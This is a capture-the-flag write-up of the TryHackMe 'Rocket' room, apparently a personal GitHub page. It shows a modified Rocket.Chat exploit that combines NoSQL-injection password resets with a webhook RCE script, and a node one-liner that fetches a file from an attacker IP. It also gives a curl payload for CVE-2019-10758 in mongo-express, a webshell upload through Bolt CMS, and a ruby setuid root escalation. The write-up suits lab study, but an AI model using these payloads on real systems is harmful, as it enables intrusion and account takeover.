 # WIP: Rocket 

*Get ready for blast off!*

This room was a *quest*, many steps each a bit of effort. 

Scans revealed 22 and 80, on 80 you were redirected to 'rocket.thm', which a host entry needed to be created for.

There was just a brochureware site at that address, so with ffuf and scanning for subdomains (via `-H "Host: FUZZ.rocket.thm"`) the subdomain chat was found.

On chat.rocket.thm was, obviously, an instance of the Rocket Chat chat system. There is a few CVEs for this - the one I tried was https://www.exploit-db.com/exploits/49960, an exploit that can, with the email of an existing user and a target admin email account, reset passwords for these accounts via nosql injection to recover reset tokens, and then use the admin account to gain RCE via webhooks (the rocket chat webhook feature allows nodejs scripts).

The exploit by itself didn't work properly however - it could successfully reset passwords (changing them to `P@$$w0rd!1234`) but would fail when attempting to run the RCE. Examining the script, there were a few issues:

- first, resetting a password takes ages and it does this *twice*, once with the low priv user. This can be skipped by registering a user on the site then baking that user's password into the exploit and skipping the reset step. Though this might be unnecessary as its only purpose seems to be to get a OTP token.
- as just alluded to, the script assumes the site and the admin is protected by MFA. This is not the case for this room. Accordingly all the secret and code stuff in the script can be removed, but importantly, within the RCE function, the payload sent to the auth endpoint should be changed from:

  ```
  payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"totp\\":{\\"login\\":{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}},\\"code\\":\\"'+code+'\\"}}]}"}'
  ```
  
  to
  
  ```
  payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}}]}"}'
  ```
- third, the rce execution doesn't work because it uses the wrong format for the nodejs script, compared to what rocketchat expects. specifically it tries to create an integration (webhook) with the following script:

  ```
  const require = console.log.constructor('return process.mainModule.require')();
  const { exec } = require('child_process');
  exec('+cmd+');
  ```
  
  this however is invalid. at this point I abandoned the exploit and using the reset admin credentials, modded the integration directly to follow this format:
  
  ```
  class Script
  {
    process_incoming_request() {
      const require = console.log.constructor('return process.mainModule.require')();
      const { execSync } = require('child_process');
      res = execSync('chmod +x /tmp/CR86Ge29yShsPuLFp && /tmp/CR86Ge29yShsPuLFp');
      return { error: { success: true, message: res.toString() } }
    }
  }
  ```
  this also changed some of the offsets used to find the token and id from the response
- finally, reading the output needed to be tweaked: since the result was in a message field, parsing the response as json then printing this field would get proper formatting.
  
Webhooks can be invoked by curl, and the full curl command is helpfully provided on the integrations page. Notably, in the above setup the output of the command is placed in the general chat channel, which isn't very stealthy. Alternatively using `return { error: { success: false, message: res.toString() } }` would output the error on the command line after curl. Also, bad failures of the script can be diagnosed in the logs (though the log will be full of errors from the token brute forcing, be warned).

With RCE, the box was enumerated slowly. Its a tied down docker container, with none of the common tools. To upload I changed rocket chats settings to use the file system and /tmp folder, and then uploaded files into chat. They would be placed in /tmp with random file names, but were otherwise fine.

Step 2: mongo-express exploit

Even though the machine is missing most tools, you can download files with node using a simple one liner: `node -e 'require("http").get("http://10.10.16.78:1234/client", res => res.pipe(require("fs").createWriteStream("client")))'`. If this is hard to send through the limited shell, base64 it and then decode after saving to a file.

env reveals mongodb on 172.17.0.2 which after pivoting can be accessed with mongo cli, but there is nothing in there

on 172.17.0.4 is a web interface for mongo, using mongo-express (identified by port 8081 and express returned in the headers). this is vulnerable to CVE-2019-10758, a very simple exploit which can be invoked with curl: `proxychains curl 'http://172.17.0.4:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return pr")().mainModule.require("child_process").execSync("id")'`. this will return 'valid' if the command succeeds, which can be helpful.

once having a shell as root, you can find a backup folder at /backup/db_backup/meteor. in here is bson.hash which contains a simple user/password for the user Terrance, the password in bcrypt.

this can be cracked with hashcat and rockyou - make sure to include the username before the hash and pass --username to hashcat, so it can be used as part of the decryption.

the initial brochureware site is made using bolt cms, which can be logged in to with the creds, use the email terrance@rocket.thm for the user.

once in, there are a number of ways to proceed. i just altered main configuration so under accepted_media_types it included php files, then uploaded a webshell using the file management tool.

this gets you access as alvin, and finally the first flag under their home dir.

local enum will reveal that ruby2.5 has the setuid capability. this however is harder to exploit for two reasons:
- apparmour is enabled on the machine, which limits what files you can read/write/execute with the binary, e.g. you can't run a shell
  - only allows you to write files with the pattern /tmp/.X[number]-lock, and only a few others can be read
- under a reverse shell, even one created with reverse_ssh, the cap_setuid doesnt work with the root id, 0

to fix this, first I add my public ssh key to alvin by creating a .ssh directory and an authorized keys file, then I ssh'd in properly

- the idea was to create a suid bash binary owned as root. to do this I created a copy of the bash binary with the name /tmp/.X1-lock. 
- I then made that binary suid via chmod u+s /tmp/.X1-lock
- finally, I ran the following: `ruby2.5 -e 'Process::Sys.setuid(0); exec "cp --preserve=mode /tmp/.X1-lock /tmp/.X2-lock"'`

to reiterate, this only works from a non-reverse shell, but the result should be a binary called .X2-lock, owned by root with the suid bit set. running that -p gets a root shell.
